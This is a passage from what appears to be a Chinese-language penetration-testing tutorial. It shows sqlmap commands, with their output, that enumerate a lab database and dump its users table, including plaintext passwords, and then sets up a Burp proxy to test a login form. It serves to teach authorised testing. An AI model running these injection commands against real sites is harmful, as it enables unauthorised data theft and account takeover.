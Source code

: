 枚举blogdb数据库中的表。这将列出表。

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U -D blogdb --tables

Database: blogdb
[3 tables]
article
comments
users
```

列出users表中的列：

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U -D blogdb -T users --columns

Database: blogdb
Table: users
[3 columns]
Column Type
id int(11)
password text
username text
```

获取username、password列中的数据：

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U -D blogdb -T users -C username,password --dump

Database: blogdb
Table: users
[3 entries]
username password
admin   test1234
john jordan23
pts _h4Rd2-GU3sS!
```

我们尝试以admin的身份登录，凭证正确。

我们首先用sqlmap发现想要dump的数据，然后dump下来。直接使用SQL注入dump数据不仅有很大噪音，对客户的基础设施来说处理起来也太沉重，尤其是在大型数据库中。

GET参数并不是仅有的执行SQL注入的方式。每个用户输入都必须在参与期间被测试，比如说，我们可以测试登录表单。登录表单使用HTTP POST方法，所以我们需要使用代理拦截数据并且测试它。

Firefox浏览器：

```
Preferences->Advanced->Network->Settings->Manual proxy configuration:

HTTP Proxy: 127.0.0.1 Port: 8080
check use this proxy server for all protocols
```

尝试用随机凭证登录，Burp拦截了请求，简单的放行它，验证该凭证无效。
